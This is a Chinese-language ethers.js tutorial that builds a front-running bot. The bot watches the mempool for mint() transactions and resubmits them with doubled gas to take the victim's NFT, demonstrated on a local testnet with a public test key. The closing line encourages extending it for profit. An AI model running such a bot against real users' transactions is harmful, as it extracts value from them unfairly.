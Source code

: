 ```yaml
---
title: 23. 抢先交易脚本
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

这一讲，我们将介绍抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

为了简化测试环境，我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

如果你不了解 `foundry`，可以阅读WTF Solidity中的[Foundry教程](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。安装好 foundry 后，在命令行输入以下命令就可以启动本地测试网:

```shell
anvil
```

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。

    ```js
    //1.连接到foundry本地网络

    import { ethers } from "ethers";
    const provider = new ethers.providers.WebSocketProvider('<http://127.0.0.1:8545>')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}]链接到网络${res.chainId}`))
    ```
2. 创建合约实例，用于查看mint结果，确认是否抢跑成功。

    ```js
    //2.构建contract实例
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0x0f5D1ef48f12b6f691401bfe88c2037c690a6afe'//合约地址
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于在监听过程中使用。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。

    ```js
    //3.创建Interface对象，用于检索mint函数。
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
        return iface.getSighash(fn)
    }
    ```

4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    //4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

5. 我们先看一下正常的mint结果是怎样的。我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数的交易，查看交易结果，获取mint的nft编码及对应的owner，比对交易发起地址与owner是否一致。确认，mint按预期执行。

    ```js
    //5. 构建正常mint函数，检验mint结果，显示正常。
    const nornaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint") !== -1)) {
                    console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}`)
                    console.log(`铸造发起的地址是:${tx.from}`)//打印交易发起地址
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`mint的NFT编号:${tokenId}`)
                    console.log(`编号${tokenId}NFT的主人是${await contractFM.ownerOf(tokenId)}`)//打印nft持有者地址
                    console.log(`铸造发起的地址是不是对应NFT的主人:${tx.from === await contractFM.ownerOf(tokenId)}`)//比较二者是否一致
                }
            }
        )
    })
    }
    ```

    ![](./img/23-2.png)

6. 进行抢跑mint。我们依旧利用`provider.on`方法监听mempool中的未决交易，当有调用了mint()函数的交易出现且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）时，构建抢跑交易，发送交易进行抢跑。等待交易结束后，查看抢跑结果。预期将要被mint的nft并未被原交易发起地址mint，而是由抢跑地址mint。同时查看区块内数据，抢跑交易在原始交易前被打包进区块，抢跑成功！

    ```js
    const frontRun = async () => {
    provider.on('pending', async (txHash) => {
        const tx = await provider.getTransaction(txHash)
        if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
            console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}\n准备抢先交易`)
            const frontRunTx = {
                to: tx.to,
                value: tx.value,
                maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                maxFeePerGas: tx.maxFeePerGas.mul(2),
                gasLimit: tx.gasLimit.mul(2),
                data: tx.data
            }
            const aimTokenId = (await contractFM.totalSupply()).add(1)
            console.log(`即将被mint的NFT编号是:${aimTokenId}`)//打印应该被mint的nft编号
            const sentFR = await wallet.sendTransaction(frontRunTx)
            console.log(`正在frontrun交易`)
            const receipt = await sentFR.wait()
            console.log(`frontrun 交易成功,交易hash是:${receipt.transactionHash}`)
            console.log(`铸造发起的地址是:${tx.from}`)
            console.log(`编号${aimTokenId}NFT的主人是${await contractFM.ownerOf(aimTokenId)}`)//刚刚mint的nft持有者并不是tx.from
            console.log(`编号${aimTokenId.add(1)}的NFT的主人是:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from被wallet.address抢跑，mint了下一个nft
            console.log(`铸造发起的地址是不是对应NFT的主人:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//比对地址，tx.from被抢跑
            //检验区块内数据结果
            const block = await provider.getBlock(tx.blockNumber)
            console.log(`区块内交易数据明细:${block.transactions}`)//在区块内，后发交易排在先发交易前，抢跑成功。
        }
    })
    }
    ```

    ![](./img/23-3.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！
